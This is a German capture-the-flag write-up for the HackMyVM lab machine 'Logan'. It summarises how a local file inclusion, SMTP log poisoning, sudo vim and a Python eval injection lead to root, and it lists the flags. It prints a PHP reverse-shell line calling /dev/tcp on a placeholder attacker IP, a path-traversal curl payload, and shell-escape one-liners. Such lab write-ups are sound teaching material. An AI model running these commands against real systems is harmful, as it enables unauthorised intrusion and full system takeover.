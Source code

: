 # Logan - HackMyVM (Medium)

![Logan.png](Logan.png)

## Übersicht

*   **VM:** Logan
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Logan)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 19. Juli 2023
*   **Original-Writeup:** https://alientec1908.github.io/Logan_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Logan" zu erlangen. Der initiale Zugriff erfolgte durch Ausnutzung einer Local File Inclusion (LFI)-Schwachstelle in einer PHP-Anwendung auf einer Admin-Subdomain. Diese LFI wurde genutzt, um durch SMTP Log Poisoning eine PHP-Reverse-Shell in die Mailbox-Datei des Benutzers `www-data` zu schreiben und diese dann über die LFI auszuführen. Dies führte zu einer Shell als `www-data`. Die erste Rechteausweitung zum Benutzer `logan` gelang durch Missbrauch einer `sudo`-Regel, die `www-data` erlaubte, `vim` als `logan` auszuführen. Die finale Eskalation zu Root erfolgte durch Ausnutzung einer weiteren unsicheren `sudo`-Regel, die `logan` erlaubte, ein Python-Skript als `root` auszuführen, welches wiederum anfällig für Code-Injection via `eval()` war.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi` / `nano`
*   `nmap`
*   `nikto`
*   `gobuster`
*   `dirb`
*   `wfuzz`
*   `nc` (netcat)
*   `telnet`
*   `msfconsole` (Metasploit Framework)
*   `sqlmap`
*   `curl`
*   Python3
*   `sudo`
*   Standard Linux-Befehle (`ls`, `cat`, `id`, `cd`, `find`, `apt`, `vim`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Logan" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.123) mit `arp-scan` identifiziert.
    *   `/etc/hosts`-Eintrag für `logan.hmv` hinzugefügt.
    *   `nmap`-Scan offenbarte Port 25 (SMTP, Postfix) und Port 80 (HTTP, Apache 2.4.52). Der VRFY-Befehl auf SMTP war aktiviert.
    *   `nikto` und `gobuster`/`dirb` auf `http://logan.hmv/` zeigten keine direkten Schwachstellen oder interessanten PHP-Dateien.

2.  **Subdomain Enumeration & LFI Discovery:**
    *   Mittels `wfuzz` wurde die Subdomain `admin.logan.hmv` entdeckt.
    *   `/etc/hosts`-Eintrag für `admin.logan.hmv` hinzugefügt.
    *   Manuelle Untersuchung und `gobuster` auf `http://admin.logan.hmv/` fanden u.a. `upload.php`, `payments.php` und `clearlogs.php`.
    *   Analyse von `payments.php` (akzeptiert POST-Parameter `file`) deutete auf eine Local File Inclusion (LFI)-Schwachstelle hin.

3.  **Initial Access (SMTP Log Poisoning & LFI -> RCE als `www-data`):**
    *   User Enumeration via SMTP (`VRFY` mit `nc` oder `smtp_enum` in Metasploit) bestätigte die Existenz der Benutzer `root` und `www-data`.
    *   Eine PHP-Reverse-Shell (`exec("bash -c 'bash -i >& /dev/tcp/ANGRIFFS_IP/443 0>&1'");`) wurde per E-Mail (SMTP, Port 25) an `www-data@logan.hmv` gesendet.
    *   Ein Netcat-Listener wurde auf dem Angreifer-System auf Port 443 gestartet.
    *   Die LFI-Schwachstelle in `payments.php` wurde genutzt, um die Mailbox-Datei von `www-data` zu inkludieren: `curl http://admin.logan.hmv/payments.php -d 'file=....//....//....//....//....//....//var/mail/www-data'`.
    *   Dies führte zur Ausführung des PHP-Payloads und etablierte eine Reverse Shell als Benutzer `www-data`.

4.  **Privilege Escalation (von `www-data` zu `logan` via `sudo vim`):**
    *   Als `www-data` wurde das Home-Verzeichnis von `logan` (`/home/logan/`) untersucht (war weltbeschreibbar). Die User-Flag (`User: ilovelogs`) wurde in `/home/logan/user.txt` gefunden.
    *   `sudo -l` als `www-data` zeigte, dass der Befehl `/usr/bin/vim` als Benutzer `logan` ohne Passwort ausgeführt werden durfte: `(logan) NPASSWD: /usr/bin/vim`.
    *   Durch Ausführen von `sudo -u logan /usr/bin/vim -c ':!/bin/sh'` wurde eine Shell als Benutzer `logan` erlangt.

5.  **Privilege Escalation (von `logan` zu `root` via `sudo python eval`):**
    *   Im Home-Verzeichnis von `logan` wurde eine `to-do`-Datei gefunden mit dem Hinweis auf ein "script that gave me root".
    *   `sudo -l` als `logan` zeigte, dass der Befehl `/usr/bin/python3 /opt/learn_some_python.py` als `root` ohne Passwort ausgeführt werden durfte: `(root) NPASSWD: /usr/bin/python3 /opt/learn_some_python.py`.
    *   Das Skript `/opt/learn_some_python.py` wurde mit `sudo` gestartet. Es stellte sich als interaktive Lernumgebung heraus.
    *   Durch Eingabe von `eval('__import__("os").system("/bin/bash -p")')` in die Eingabeaufforderung des Skripts konnte eine Bash-Shell mit Root-Rechten (`euid=0(root)`) gestartet werden.
    *   Die Root-Flag (`Root: siuuuuuuuu`) wurde in `/root/root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Local File Inclusion (LFI):** Eine Schwachstelle in `payments.php` erlaubte das Inkludieren beliebiger lokaler Dateien durch Manipulation des `file`-Parameters.
*   **SMTP Log Poisoning:** Die LFI wurde genutzt, um eine Mailbox-Datei (`/var/mail/www-data`) zu inkludieren, in die zuvor ein PHP-Payload per SMTP geschrieben wurde, was zu RCE führte.
*   **SMTP User Enumeration (VRFY):** Der aktivierte `VRFY`-Befehl im Postfix-Server erlaubte das Bestätigen gültiger Benutzernamen.
*   **Unsichere `sudo`-Regeln:**
    *   `www-data` durfte `vim` als `logan` ausführen (`(logan) NPASSWD: /usr/bin/vim`), was eine Eskalation zu `logan` ermöglichte.
    *   `logan` durfte ein Python-Skript als `root` ausführen (`(root) NPASSWD: /usr/bin/python3 /opt/learn_some_python.py`).
*   **Unsichere Code-Ausführung (Python `eval`):** Das Python-Skript, das mit `sudo`-Rechten ausgeführt werden konnte, verwendete `eval()` (oder eine ähnliche unsichere Funktion) zur Verarbeitung von Benutzereingaben, was Code-Injection und somit Root-Eskalation ermöglichte.
*   **Unsichere Dateiberechtigungen:** Das Home-Verzeichnis von `logan` war weltbeschreibbar.

## Flags

*   **User Flag (`/home/logan/user.txt`):** `User: ilovelogs`
*   **Root Flag (`/root/root.txt`):** `Root: siuuuuuuuu`

## Tags

`HackMyVM`, `Logan`, `Medium`, `LFI`, `SMTP Log Poisoning`, `sudo Exploit`, `vim Exploit`, `Python eval Injection`, `Subdomain Enumeration`, `Linux`, `Web`, `Privilege Escalation`, `Apache`, `Postfix`
